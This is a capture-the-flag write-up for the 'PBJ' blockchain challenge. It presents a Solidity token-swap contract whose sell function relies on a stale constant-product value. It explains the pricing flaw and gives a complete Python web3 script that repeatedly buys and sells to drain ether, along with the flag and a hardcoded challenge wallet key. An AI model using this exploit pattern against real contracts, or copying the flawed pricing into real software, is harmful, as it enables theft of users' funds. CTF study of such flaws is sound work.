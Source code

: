 # PBJ

Category: MISC (Blockchain)

Points: 345

Solves: 44

>The bot does all the trading, while I sit back and relax.

We are given a etheruem smart contract:

```js
pragma solidity ^0.8.0;
contract PBJ {
    uint256 public flagCoin = 100;
    uint256 public eth; 
    uint256 public price; 
    uint256 public totalPrice;
    uint256 public k;
    uint256 public x;
    uint256 public y;
    uint256 public to_pay;
    uint256 public flag;
    mapping(address => uint256) public flags;
     constructor() payable {
         eth = msg.value; 
         k = eth * flagCoin;
     }
     function buy() payable public {
        flag = (msg.value*flagCoin)/(eth+msg.value);
        require(flag <= flagCoin,"Not enough flagCoin!");
        flagCoin =  flagCoin - flag;
        eth += msg.value;
        flags[msg.sender] += flag;
     }
     function sell(uint256 flag) payable public {
         require(flag <= flagCoin,"Not enough flagCoin!");
         require(flag <= flags[msg.sender],"You do not have that many flagCoins!");
         y = flag + flagCoin;
         x = k/y;
         to_pay = eth - x;
         flagCoin = y;
         eth = x;
         flags[msg.sender] -= flag;
         payable(msg.sender).transfer(to_pay);
     }
     function check_balance() public view returns (uint256) {
        return flags[msg.sender];
     }
     function priceForXFlagCoin(uint256 flag) public view returns (uint256) {
        return (k/(flagCoin-flag))-eth;
     }

     function isChallSolved() public view returns (bool) {
        return (msg.sender.balance / 1 ether) > 50;
    }
}
```

Looking at the methods, it seems like the goal of this challenge is to gain ether by buying and selling `flagCoin`s and finding some kinda of bug that allows us to gain more ether when we sell compared to how much we lose when we buy.


Since we are trying to make money by buying and selling coins we need to find a way to calculate our net profits for spending `X` amount of ether to buy flag coins. However, this doesn't make sense because then we would have to calculate the best value for spending any amount of ether which is a continous variable.

Instead, our insight will be to calcuate how much money we will gain if we buy and sell some amount of flagcoins. Since we can only have a discrete number of the flagcoins, we can just loop through calculating our profit if we buy and sell `i` flagcoins.

Since we are given all the variables used to calculate the price of buying a coin, we can just calculate that value locally:

```py
def calcPayment(flag, flagCoin, eth):
    payment = contract.functions.priceForXFlagCoin(flag).call({'from': ACCOUNT})
    l = payment
    r = payment*4

    while l < r:
        mid = (l+r)//2
        if (w3.from_wei(mid,'ether')*decimal.Decimal(flagCoin))//(decimal.Decimal(flagCoin)+w3.from_wei(mid,'ether')) < flag:
            l = mid+1
        else:
            r = mid
    
    assert (w3.from_wei(l,'ether')*decimal.Decimal(flagCoin))//(decimal.Decimal(flagCoin)+w3.from_wei(l,'ether')) == flag
    return l+w3.to_wei(0.2, 'ether')
```

We can also calculate the value for when we sell the flagcoins locally:

```py
# if i buy with income
t_flagCoin = flagCoin - flag
t_eth = eth_value + w3.from_wei(payment,'ether')
income_eth = t_eth - k//(flag + t_flagCoin)
print(income_eth, f"ETH for {flag} sell")
```

Finally, we can just loop over some amount of flagcoins we want to buy and check the profitability of each one:

```py
for flag in range(11,1,-1):
    payment = calcPayment(flag, flagCoin, eth_value)
    print(w3.from_wei(payment,'ether'), f"ETH for {flag} buy")

    # if i buy with income
    t_flagCoin = flagCoin - flag
    t_eth = eth_value + w3.from_wei(payment,'ether')
    income_eth = t_eth - k//(flag + t_flagCoin)
    print(income_eth, f"ETH for {flag} sell")

    if income_eth > w3.from_wei(payment,'ether') and w3.from_wei(payment,'ether') < balance:
        print(f"Using {w3.from_wei(payment,'ether')} to buy {flag} flags")
        buy_func = contract.functions.buy()
        send_tx(buy_func, payment)
        getInfo()
        sell_func = contract.functions.sell(flag)
        send_tx(sell_func)
        getInfo()
        flagCoin -= flag
        income_eth = k//(flag + t_flagCoin)
        return
```

After running this enough times, we will eventually gain enough coins to solve the challenge.


## Flag

`ictf{n3v3r_7ru571ng_7h15_b0t_4g41n}`

## Solve Script

```py
from web3 import Web3
import math
import decimal

# ====== CONFIG ======
RPC_URL = "http://34.45.211.133:41878"   # <-- replace with the actual RPC endpoint
CONTRACT_ADDRESS = "0xE2AE71bD3Cf2F3ae0255C783CCf1e16Ed44E20Cd" # <-- replace with actual contract address
PRIVATE_KEY = "0x3b0ca8f988e0d92c3b5fb000717e4818c3dc6c1875965922d557c302341f5a36"           # <-- replace with your wallet key
ACCOUNT = "0xA738e2b28B26e30f2e81903F0C1A1604fB7ccF93"            # <-- replace with your wallet address

# Connect to chain
w3 = Web3(Web3.HTTPProvider(RPC_URL))
assert w3.is_connected(), "Could not connect to RPC"

# Load contract ABI
ABI = [
    ... # Removed ABI for readability
]

contract = w3.eth.contract(address=CONTRACT_ADDRESS, abi=ABI)

# Helper: build & send a transaction
def send_tx(func, value=0):
    nonce = w3.eth.get_transaction_count(ACCOUNT)
    tx = func.build_transaction({
        'from': ACCOUNT,
        'value': value,
        'gas': 300000,
        'gasPrice': w3.to_wei('1', 'gwei'),
        'nonce': nonce
    })
    signed = w3.eth.account.sign_transaction(tx, PRIVATE_KEY)
    tx_hash = w3.eth.send_raw_transaction(signed.raw_transaction)
    receipt = w3.eth.wait_for_transaction_receipt(tx_hash, timeout=300)
    return receipt

def getInfo():
    # Contract Eth 
    eth_value = contract.functions.eth().call()
    print("ETH in pool at start:", w3.from_wei(eth_value, 'ether'))

    # Contract l
    k_value = contract.functions.k().call()
    print("K value starts at:", w3.from_wei(k_value, 'ether'))

    # Ether count
    balance = w3.eth.get_balance(ACCOUNT)
    print("Your ETH balance:", w3.from_wei(balance, 'ether'))

    # Ceck your flag balance
    balance = contract.functions.check_balance().call({'from': ACCOUNT})
    print("Your flag balance:", balance)

def calcPayment(flag, flagCoin, eth):
    payment = contract.functions.priceForXFlagCoin(flag).call({'from': ACCOUNT})
    l = payment
    r = payment*4

    while l < r:
        mid = (l+r)//2
        if (w3.from_wei(mid,'ether')*decimal.Decimal(flagCoin))//(decimal.Decimal(flagCoin)+w3.from_wei(mid,'ether')) < flag:
            l = mid+1
        else:
            r = mid
    
    assert (w3.from_wei(l,'ether')*decimal.Decimal(flagCoin))//(decimal.Decimal(flagCoin)+w3.from_wei(l,'ether')) == flag
    return l+w3.to_wei(0.2, 'ether')

global_eth = decimal.Decimal(99.99)
global_flagCoin = decimal.Decimal(100)

def calcGoodValue():
    global global_eth, global_flagCoin
    flagCoin = global_flagCoin
    eth_value = global_eth
    k = flagCoin*eth_value
    balance = w3.eth.get_balance(ACCOUNT)
    balance = w3.from_wei(balance, 'ether')

    print(f"Current Values flagCoin: {flagCoin} | eth: {eth_value}")
    for flag in range(11,1,-1):
        payment = calcPayment(flag, flagCoin, eth_value)
        print(w3.from_wei(payment,'ether'), f"ETH for {flag} buy")

        # if i buy with income
        t_flagCoin = flagCoin - flag
        t_eth = eth_value + w3.from_wei(payment,'ether')
        income_eth = t_eth - k//(flag + t_flagCoin)
        print(income_eth, f"ETH for {flag} sell")

        if income_eth > w3.from_wei(payment,'ether') and w3.from_wei(payment,'ether') < balance:
            print(f"Using {w3.from_wei(payment,'ether')} to buy {flag} flags")
            buy_func = contract.functions.buy()
            send_tx(buy_func, payment)
            getInfo()
            sell_func = contract.functions.sell(flag)
            send_tx(sell_func)
            getInfo()
            flagCoin -= flag
            income_eth = k//(flag + t_flagCoin)
            return

getInfo()

calcGoodValue()

getInfo()

solved = contract.functions.isChallSolved().call({'from': ACCOUNT})

print("Challenge solved?", solved)
```
